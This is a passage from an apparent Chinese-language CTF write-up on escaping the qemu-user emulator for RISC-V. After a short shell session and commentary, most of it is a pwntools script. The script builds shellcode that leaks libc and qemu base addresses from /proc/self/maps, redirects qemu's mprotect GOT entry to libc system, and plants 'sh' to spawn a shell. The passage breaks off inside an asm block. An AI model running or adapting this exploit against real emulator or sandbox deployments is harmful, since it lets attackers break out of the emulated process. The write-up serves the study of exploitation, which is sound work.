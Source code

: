 ```c
$ riscv64-linux-gnu-gcc -static test.c -o test
$ qemu-riscv64 ./test
$ ls
core	libc-2.31.so  qemu-riscv64.id0	qemu-riscv64.id2  qemu-riscv64.til  testaarch  testmips
exp.py	qemu-riscv64  qemu-riscv64.id1	qemu-riscv64.nam  test		    test.c
```

至此完成qemu-user的成功逃逸（如果没有禁用系统调用，对于qemu-user也就没有逃逸的概念了）

###### shellcode需交互demo

上面零交互的代码，因为要处理泄露地址信息，故存在非常多的字符串处理函数`strstr,strtok,strdup,sscanf`，这也是代码里最复杂的部分，shellcode的编写过程也不能直接使用库函数，无论是把这玩意写进shellcode中，还是尝试根据libc基址去调库函数，难度都比较大。所以还是采取交互的方法，用python处理泄露地址的过程：

```python
from pwn import *
#context(log_level="debug")

testcode='''
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main(void)
{
    char payload[1000];
    int f = open("sc.bin",0);
    int len = read(f,payload,1000);
    printf("Length: %d\\n", len);
    (*(void(*)()) payload) ();
    return 0;
}
'''
f = open("test.c","w");f.write(testcode);f.close()
os.system("riscv64-linux-gnu-gcc test.c --static -o test")

shellcode = '''
void * syscall();
__attribute__((section(".text"))) char maps[] = "/./proc/self/maps";

int main() {
    long long * libc_base,* qemu_base;
    char buf[0x1000];
    void * f = 
    syscall(56,0,maps,0);          // openat  =  56
    syscall(63,f,buf,0x1000);      // read    =  63
    syscall(64,1,buf,0x1000);      // write   =  64
    syscall(63,f,buf,0x1000);      // read    =  63
    syscall(64,1,buf,0x1000);      // write   =  64

    syscall(63,0,&qemu_base,8);
    syscall(63,0,&libc_base,8);

    long long * libc_system   =   libc_base + 0x055410/8;
    long long * mprotect_got  =   qemu_base + 0x7171c0/8;
    long long * ro_memory     =   qemu_base + 0x6b7000/8;

    syscall(226,ro_memory,0x0061000,6);
    * mprotect_got = (long long)  libc_system;
    * ro_memory    = (long long)  0x6873;

    syscall(226,ro_memory,0x0061000,6);
}

asm(
```